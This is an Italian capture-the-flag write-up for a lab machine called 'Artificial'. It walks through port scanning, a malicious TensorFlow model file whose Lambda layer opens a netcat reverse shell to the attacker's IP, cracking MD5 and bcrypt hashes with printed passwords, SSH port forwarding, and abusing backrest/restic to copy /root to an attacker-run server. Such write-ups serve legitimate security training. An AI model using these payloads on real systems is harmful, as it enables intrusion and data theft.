 # Macchina artificial

IP vittima: 10.10.11.74 
IP attacante: 10.10.14.6

## Recon

`sudo nmap -p- --open -vvv -n -Pn 10.10.11.74 -oG porte`
`nmap -sC -sV -p22,80 10.10.11.74 -oN servizi`

```bash
# Nmap 7.94SVN scan initiated Wed Oct 22 18:37:34 2025 as: nmap -sC -sV -p22,80 -oN servizi 10.10.11.74
Nmap scan report for artificial.htb (10.10.11.74)
Host is up (0.028s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Artificial - AI Solutions
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct 22 18:37:42 2025 -- 1 IP address (1 host up) scanned in 7.76 seconds
```

Porte: 22,80

## Porta 80

Probabilmente non si riesce a visitare la porta http 80 sul browser quindi aggiornare `/etc/hosts con: <IP MACCHINA> artificial.htb`
![](\images\2025-10-22-23-14-56-image.png)

Creare un account e loggarsi, poi scaricare il Dockerfile

![](\images\2025-10-22-23-15-41-image.png)Sfrutteremo questo exploit: https://github.com/Splinter0/tensorflow-rce/blob/main/exploit.py

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

Inserendo il nostro IP e la nostra porta di ascolto

Creare il Docker con il docker file scaricato dal sito:

```bash
FROM python:3.8-slim

WORKDIR /code

RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash"]
```

Quando si avvia il container docker creato saremo in una shell bash:

- creare un file .py che contiene l'exploit (mettere il nostro ip e la porta)
- eseguire il file .py creato con python
- lo script lanciato creerà un file `exploit.h5`
- copiare il file exploit.h5 creato fuori dal docker ( `docker cp $(docker ps -l -q):/code/exploit.h5 ./` )

Ora dal sito uploadare il file `exploit.h5`

![](images\2025-10-22-23-17-52-image.png)mettersi in ascolto sulla porta 4444 ( `nc -nlvp 4444` ) e cliccare su `View Predictions` sul sito

![](images\2025-10-22-23-18-49-image.png)Siamo dentro con l'utente `app`
Vediamo che nella cartella /home ci sono due cartelle: app e gael che probabilmente è un utente che troviamo anche in /etc/passwd
![](images\2025-10-22-23-19-45-image.png)

## User gael

Con [[linpeas]]troviamo il file `/home/app/app/instance/users.db`
che possiamo esaminare:

![](images\2025-10-22-23-20-17-image.png)Questa chiave `c99175974b6e192936d97224638a34f8` è un hash MD5 che potrebbe essere la password dell'user gael

Creiamo un file `hash.txt` che contiene la hash di gael e proviamo a craccarla con [[johntheripper]]
`john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-md5`

![](images\2025-10-22-23-20-48-image.png)Troviamo la password: `mattp005numbertwo`

Con la password trovata possiamo entrare nell'utente gael con ssh `ssh gael@10.10.11.74`
Nella cartella `/home/gael` troviamo il file `user.txt` con la user flag

## Root

Con [[linpeas]]si trova il file `backrest_backup.tar.gz` nella cartella `/var/backups`
Scarichiamolo sul nostro pc e apriamolo ( `tar -xvf backrest_backup.tar.gz` )
Nella cartella `backrest/.config/backrest` troviamo il file `config.json`:

![](images\2025-10-22-23-21-39-image.png)Questa è una **password cifrata con bcrypt** Analizziamo i dettagli:

### Struttura del dato:

- **Identificatore**: `"backrest_root"`
- **Algoritmo**: `bcrypt` (indicato dal campo `passwordBcrypt`)
- **Formato**: Stringa codificata in Base64
  
  ### Cosa contiene esattamente:
  
  La stringa `"JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"` è un hash bcrypt che include:
1. **Versione algoritmo** (`$2a$`)
2. **Costo computazionale** (work factor)
3. **Salt** (valore casuale)
4. **Hash della password** vero e proprio
   
   ### Contesto probabile:

`"backrest_root"` suggerisce che potrebbe essere una password per il tool di backup `backrest` che è una soluzione di backup accessibile via web basata su restic che utilizza la porta 9898 di localhost
Possiamo sfruttare questo exploit di restic: https://gtfobins.github.io/gtfobins/restic/ ma dovremo installare restic ( `apt install restic` ) e rest-server scaricandolo da qui https://github.com/restic/rest-server

Cracchiamola con [[johntheripper]]
`john hash2.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt`
Troviamo la password: `?:!@#$%^`

Nella macchina vittima lanciamo il comando `ss -tuln` 
Comando `ss`:

### Significato delle opzioni:

- **`-t`** (TCP) - Mostra le connessioni TCP  
- **`-u`** (UDP) - Mostra le connessioni UDP  
- **`-l`** (listening) - Mostra solo socket in ascolto
- **`-n`** (numeric) - Mostra numeri invece di risolvere nomi (più veloce)
  
  ### Cosa visualizza:
  
  Elenca **tutti i servizi in ascolto** sulla macchina con:
- **Protocollo** (TCP/UDP)    
- **Porta** in uso    
- **Indirizzo IP** di ascolto   
- **Stato** della connessione

Vediamo che la porta 9898 è utilizzata:
![](images\2025-10-22-23-22-29-image.png)

Sulla nostra macchina, con Il comando `ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898` creiamo un **tunnel SSH con port forwarding locale**. 

### Cosa succede esattamente:

1. **Sulla tua macchina locale**:    
   - SSH apre un socket in ascolto sulla **porta 9898**       
2. **Quando ti connetti alla tua porta 9898**:  
   - Il traffico viene **incapsulato** nella connessione SSH      
   - Viaggia cifrato fino al server `10.10.11.74`      
3. **Sul server remoto**:
   - SSH inoltra il traffico a `127.0.0.1:9898`     
   - (cioè a un servizio in esecuzione sul server stesso)

Con `localhost:9898` nel nostro browser entriamo nel servizio backrest sulla macchina vittima
![](images\2025-10-22-23-23-10-image.png)

Accediamo con Username: `backrest_root` e Password: `!@#$%^`
Dopo aver fatto l'accesso dovremo creare una nuova repo (+ Add Repo)

![](images\2025-10-22-23-23-38-image.png)mettendo un nome (repox), URI /opt e una password (123456)
![](images\2025-10-22-23-24-15-image.png)

Mettiamoci in ascolto sulla nostra macchina con 
`./rest-server --path /tmp/restic-data --listen :12345 --no-auth`

Poi sul sito selezioniamo la repo creata e clicchiamo su Run Command

![](images\2025-10-22-23-24-48-image.png)Poi inseriamo i seguenti comandi:
`-r rest:http://<NOSTRO IP>:12345/repox init`
`-r rest:http://<NOSTRO IP>:12345/repox backup /root`

Sulla nostra macchina inseriamo i comandi:
`restic -r /tmp/restic-data/repox snapshots`

![](images\2025-10-22-23-25-24-image.png)`restic -r /tmp/restic-data/repox restore f8118067 --target ./restore`   (f8118067 è l'ID della repo)

Poi con il comando `cat restore/root/root.txt` otteniamo la flag root
